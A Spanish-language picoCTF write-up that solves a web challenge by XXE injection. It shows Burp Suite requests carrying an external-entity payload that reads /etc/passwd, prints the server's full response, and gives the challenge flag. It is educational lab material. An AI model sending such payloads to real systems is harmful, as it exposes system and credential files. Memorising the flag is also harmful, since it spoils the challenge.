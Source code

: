 ### Descripción
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

Additional details will be available after launching your challenge instance.
#### Una vez iniciada la instancia del desafío:
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?
[Web Portal](http://saturn.picoctf.net:52660/)
### Solución
Una vez iniciada la instancia del reto, hacemos clic en el enlace para acceder al sitio web, donde vemos lo siguiente:

![[Pasted image 20250401214712.png]]

Se revisa el código fuente, pero este no arroja algún indicio de contener la bandera, por lo que se procede a usar la herramienta *Burp Suite*, para poder observar las solicitudes HTTP y ver sí por ahí podemos obtener algo que nos acerque a la bandera, por lo que se inicia BURP en el navegador y se procede a dar clic en los botones de *Details*, los cuales se van almacenando en la siguiente lista:

![[Pasted image 20250401214804.png]]

Se procede a enviar al **Repeater**, la tercera solicitud, donde nos encontramos con lo siguiente:

```xml
POST /data HTTP/1.1
Host: saturn.picoctf.net:52660
Content-Length: 133
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://saturn.picoctf.net:52660
Referer: http://saturn.picoctf.net:52660/
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
	<data>
		<ID>
			3
		</ID>
	</data>
```

Se hacen pruebas y se determina que solo se pude enviar números entre 1 y 3, ya que mayores o menores a ese rango nos arroja una solicitud inválida, por lo que se pide a ChatGPT que muestre algunos ejemplos de payloads, siendo este primero, uno para una prueba de referencia a una entidad externa:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe "XXE Works!">
]>
<root>
  <data>&xxe;</data>
</root>

```

El siguiente es para la lectura para archivos sensibles:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <data>&xxe;</data>
</root>

```

Es este justamente el que se termina implementando en la solicitud HTTP que se está manipulando, quedando en lo siguiente:

```xml
POST /data HTTP/1.1
Host: saturn.picoctf.net:52660
Content-Length: 133
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://saturn.picoctf.net:52660
Referer: http://saturn.picoctf.net:52660/
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
	<data>
		<ID>
			&xxe;
		</ID>
	</data>
```

Por lo que se vuelve a reenviar una vez que se termino de modificar, arrojando la siguiente respuesta:

```xml
HTTP/1.1 200 OK
Server: Werkzeug/2.3.6 Python/3.8.10
Date: Wed, 02 Apr 2025 03:46:11 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1023
Connection: close

Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_0e13660d}
```

Es en el último renglón donde podemos apreciar la bandera que soluciona el reto:

```
picoCTF{XML_3xtern@l_3nt1t1ty_0e13660d}
```
### Notas Adicionales

### Referencias
